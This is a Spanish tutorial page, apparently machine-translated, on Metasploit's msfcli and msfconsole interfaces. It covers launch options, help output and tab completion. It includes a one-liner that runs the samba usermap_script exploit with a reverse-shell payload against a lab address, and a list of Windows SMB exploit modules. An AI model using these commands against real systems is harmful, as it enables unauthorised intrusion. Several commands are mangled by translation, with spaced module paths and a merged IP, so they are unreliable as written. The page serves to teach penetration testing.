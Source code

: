 # Fundamentos de metasploit

## USO DE LA INTERFAZ MSFCLI

Al aprender a usar Metasploit, encontrará que hay muchas interfaces diferentes para usar con esta herramienta de piratería, cada una con sus propias fortalezas y debilidades. Como tal, no existe una interfaz perfecta para usar con la consola Metasploit, aunque MSFConsole es la única forma compatible de acceder a la mayoría de los comandos de Metasploit. Sin embargo, sigue siendo beneficioso sentirse cómodo con todas las interfaces de Metasploit.

### ¿QUÉ ES EL MSFCLI?

El  msfcli proporciona una potente interfaz de línea de comandos para el marco. Esto le permite agregar fácilmente exploits de Metasploit en cualquier script que pueda crear.

Nota: A partir de 2015-06-18, msfcli ha sido eliminado. Una forma de obtener una funcionalidad similar a través de msfconsole es usando la opción -x. Por ejemplo, el siguiente comando establece todas las opciones para samba / usermap_script y lo ejecuta contra un objetivo:

	┌─[root@cs-academy]─[~]
	└──╼ # msfconsole -x "use exploit / multi / samba / usermap_script; \
	set RHOST 172.16.194.172; \
	set PAYLOAD cmd / unix / reverse; \
	set LHOST 172.16.194.163; \
	run"

### Beneficios de la interfaz MSFcli

- Soporta el lanzamiento de exploits y módulos auxiliares
- Útil para tareas específicas
- Bueno para aprender
- Cómodo de usar al probar o desarrollar un nuevo exploit
- Buena herramienta para explotación puntual
- Excelente si sabe exactamente qué exploit y opciones necesita
- Maravilloso para usar en scripts y automatización básica

El único inconveniente real de msfcli es que no se admite tan bien como msfconsole y solo puede manejar un shell a la vez, lo que lo hace poco práctico para los ataques del lado del cliente. Tampoco es compatible con ninguna de las funciones de automatización avanzadas de msfconsole .

## USO DE LA INTERFAZ DE MSFCONSOLE

### ¿QUÉ ES LA MSFCONSOLE?

El msfconsole es probablemente la interfaz más popular para Metasploit Framework (MSF). Proporciona una consola centralizada "todo en uno" y le permite un acceso eficiente a prácticamente todas las opciones disponibles en MSF. MSFconsole puede parecer intimidante al principio, pero una vez que aprenda la sintaxis de los comandos, aprenderá a apreciar el poder de utilizar esta interfaz.

- Beneficios de usar MSFconsole
- Es la única forma compatible de acceder a la mayoría de las funciones dentro de Metasploit.
- Proporciona una interfaz basada en consola para el marco.
- Contiene la mayoría de las funciones y es la interfaz de MSF más estable
- Soporte completo de readline, tabulación y finalización de comandos
- Es posible la ejecución de comandos externos en msfconsole:
	msf> ping -c 1192.168.1.100
	[*] exec: ping -c 1192.168.1.100
	
	PING 192.168.1.100 (192.168.1.100) 56 (84) bytes de datos.
	64 bytes de 192.168.1.100: icmp_seq = 1 ttl = 128 tiempo = 10,3 ms
	
	--- 192.168.1.100 estadísticas de ping ---
	1 paquete transmitido, 1 recibido, 0% de pérdida de paquete, tiempo 0 ms
	rtt min / avg / max / mdev = 10.308 / 10.308 / 10.308 / 0.000 ms
	msf>


### LANZAMIENTO DE MSFCONSOLE
MSFconsole se inicia simplemente ejecutando msfconsole desde la línea de comandos. MSFconsole se encuentra en el directorio /usr/share/metasploit-framework/msfconsole .

La opción -q elimina el banner de inicio al iniciar msfconsole en modo silencioso.

	┌─[root@cs-academy]─[~]
	└──╼ # msfconsole -q
	msf>

Cómo utilizar el símbolo del sistema
Puede pasar -h a msfconsole para ver las otras opciones de uso disponibles.

	┌─[root@cs-academy]─[~]
	└──╼ # msfconsole -h
	Uso: msfconsole [opciones]
	
	Opciones comunes
	    -E, --environment ENTORNO El entorno de Rails. Utilizará la variable de entorno RAIL_ENV si está configurada. El valor predeterminado es producción si no se establece ninguna opción ni la variable de entorno RAILS_ENV.
	
	Opciones de base de datos
	    -M, --migration-path DIRECTORIO Especifica un directorio que contiene migraciones de base de datos adicionales
	    -n, --no-database Desactiva el soporte de la base de datos
	    -y, --yaml RUTA Especifica un archivo YAML que contiene la configuración de la base de datos
	
	Opciones de marco
	    -c ARCHIVO Carga el archivo de configuración especificado
	    -v, --version Mostrar versión
	
	Opciones de módulo
	        --defer-module-load Aplaza la carga del módulo a menos que se solicite explícitamente.
	    -m, --module-path DIRECTORIO Una ruta de módulo adicional
	
	
	Opciones de consola:
	    -a, --preguntar Preguntar antes de salir de Metasploit o aceptar 'salir -y'
	    -d, --defanged Ejecuta la consola como defanged
	    -L, --real-readline Usa la biblioteca Readline del sistema en lugar de RbReadline
	    -o, --output FILE Salida al archivo especificado
	    -p, --plugin PLUGIN Carga un complemento al inicio
	    -q, --quiet No imprime el banner al inicio
	    -r, --resource FILE Ejecuta el archivo de recursos especificado (- para stdin)
	    -x, --execute-command COMMAND Ejecuta la cadena especificada como comandos de consola (usar; para múltiples)
	    -h, --help Mostrar este mensaje

Ingresando help o un ? una vez en el símbolo del sistema de msf, se mostrará una lista de los comandos disponibles junto con una descripción de para qué se utilizan.

	msf> ayuda
	

### FINALIZACIÓN DE PESTAÑA (auto-completado)
MSFconsole está diseñada para ser de uso rápido y una de las características que ayuda a este objetivo es completar la pestaña. Con la amplia gama de módulos disponibles, puede resultar difícil recordar el nombre exacto y la ruta del módulo en particular que desea utilizar. Al igual que con la mayoría de los otros shells, ingresar lo que sabe y presionar 'Tab' le presentará una lista de opciones disponibles para usted o completará automáticamente la cadena si solo hay una opción. La finalización de tabulación depende de la extensión de ruby ​​readline y casi todos los comandos de la consola admiten la finalización de tabulación.

	use exploit/windows/dce
	use * netapi. *
	set LHOST
	show

Poner un objectivo
	set PAYLOAD windows/shell/
	Exp
	msf> usar exploit/windows/smb/ms
	use exploit/windows/smb/ms03_049_netapi
	use exploit/windows/smb/ms04_007_killbill
	use exploit/windows/smb/ms04_011_lsass
	use exploit /windows/smb/ms04_031_netdde
	use exploit/windows /smb/ms05_039_pnp
	use exploit /windows/smb/ms06_025_rasmans_reg
	use exploit/windows/smb/ms06_025_rras
	use exploit/windows/smb/ms06_040_netapi
	use exploit/windows/smb/ms06_066_nwapi
	use exploit/windows/smb/ms06_066_nwwks
	use exploit/windows/smb/ms06_070_wkssvc
	use exploit/windows/smb/ms07_029_msdns_zonename
	use exploit/windows/smb/ms08_067_netapi
	use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
	use exploit/windows/smb/ms10_046_shortcut_icon_dllloader
	use exploit/windows/smb/ms10_061_spoolss
	use exploit/windows/smb/ms15_020_shortcut_icon_dllloader


	msf> use exploit/windows/smb/ms08_067_netapi

MSFconsole es la interfaz más utilizada para Metasploit. Familiarizarse con estos  comandos de msfconsole le ayudará a lo largo de este curso y le dará una base sólida para trabajar con Metasploit en general.
